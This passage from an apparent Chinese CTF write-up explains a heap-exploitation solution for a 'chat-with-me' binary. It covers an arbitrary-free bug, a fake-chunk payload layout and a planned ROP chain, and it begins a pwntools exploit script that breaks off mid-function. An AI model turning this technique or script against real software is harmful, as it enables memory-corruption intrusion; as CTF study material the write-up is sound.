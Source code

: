 这样，一切就通了：

1. 使用任意地址 free 漏洞，输入以下 payload，free 掉第八个位置造的假 chunk  
   (第八个位置可由 show 函数泄露的信息推断出来)

```
0x0
0x0
0x0
0x401           <- 长度
第八个位置       <- free 的地址
0x0             <- 假 chunk header
0x401           <- 假 chunk header
0x5651d8236b00  <- 假 chunk, delete 时 rbp 的位置
0x0
0x7
```

1. 在 delete 时输入一个长度为 0x3f0 大小的二进制数据，好让该数据分配到假 chunk，并且该数据为精心构造的 rop 链即可
   
在分配时需要注意调整 rop 链长度，避免进入 read_line 函数 utf-8 处理

### [](#header-3)EXP

```py
# by leeya_bug

from ast import literal_eval
from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
#context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/chat-with-me')
#libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug(interact = True, query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -ex "{query}" -p {p.pid}' '''])
	if interact: p.interactive()
	
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()
	
u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def add() -> None:
	p.sendlineafter(b'Choice >', b'1')

def show(index: int) -> None:
	p.sendlineafter(b'Choice >', b'2')
	p.sendlineafter(b'Index >', str(index).encode())
	p.recvuntil(b'Content:')
	return literal_eval(p.recvuntil(b']').decode())
	
def edit(index: int, memory: bytes) -> bytes:
	p.sendlineafter(b'Choice >', b'3')
```